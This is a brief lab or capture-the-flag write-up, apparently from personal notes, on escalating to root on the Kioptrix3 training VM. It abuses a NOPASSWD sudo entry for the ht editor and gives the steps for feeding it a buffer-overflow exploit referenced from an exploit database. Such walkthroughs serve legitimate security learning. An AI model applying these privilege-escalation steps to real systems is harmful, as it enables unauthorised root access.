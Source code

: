 	
## Root - Via Buffer Overflow 
1. Check sudo access
	```
	loneferret@Kioptrix3:~$ sudo -l
	sudo -l
	User loneferret may run the following commands on this host:
		(root) NOPASSWD: !/usr/bin/su
		(root) NOPASSWD: /usr/local/bin/ht
	loneferret@Kioptrix3:~$ 
	```
2. Run `ht`
	```
	loneferret@Kioptrix3:~$ sudo ht
	sudo ht
	Error opening terminal: unknown.
	loneferret@Kioptrix3:~$ export TERM=xterm
	```
	![](images/Pasted%20image%2020220123195137.png)
	- `ht 2.0.18`
3. Search for exploits
	- https://www.exploit-database.net/?id=17836
	- A bufferoverflow exploit where EIP is overwritten into spawning a shell
4. Transfer exploit 
5. Exploit
	```
	python exploit.py > output
	sudo ht $(cat output)
	```